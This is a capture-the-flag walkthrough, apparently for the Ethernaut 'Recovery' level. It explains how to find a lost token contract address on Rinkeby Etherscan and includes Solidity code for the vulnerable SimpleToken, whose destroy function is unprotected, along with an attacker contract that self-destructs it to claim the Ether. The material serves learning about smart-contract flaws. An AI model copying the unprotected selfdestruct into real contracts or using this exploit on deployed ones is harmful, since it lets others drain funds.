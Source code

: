# Recovery

**HINT:** Find the Simple Token address using [Rinkeby.etherscan](https://rinkeby.etherscan.io/) to then kill the contract
<details>
<summary>Part 1</summary>
<p>

You want to find what the contract address is so first go to [Rinkeby.etherscan](https://rinkeby.etherscan.io/) and search you contract instance address

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Click on ```Internal Txns``` and click on the ```Parent Txn Hash``` of the latest ```contract creation```

</p>
</details>

<details>
<summary>Part 3</summary>
<p>

Look at where the Ether was sent in the ```to:``` section and click on the address that the 0.5 Ether was sent to. This is the address of the contract so keep that tab open because you need it for the next steps.

</p>
</details>

<details>
<summary>Part 4</summary>
<p>

create a contract to kill the simple token contract and recover the Ether
```
pragma solidity ^0.6.6;

contract SimpleToken {
  string public name;
  mapping (address => uint) public balances;

  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  fallback() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] -_amount;
    balances[_to] = _amount;
  }

  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}

  
contract Destroy{
    address payable receiver = msg.sender;
    SimpleToken killMeplease;
    
    function destroySimpleToken(address payable simpleTokenAddress) public{
        killMeplease = SimpleToken(simpleTokenAddress);
        killMeplease.destroy(receiver);
    }
    
}
```
When deployed use the address you found and hit transact.

</p>
</details>
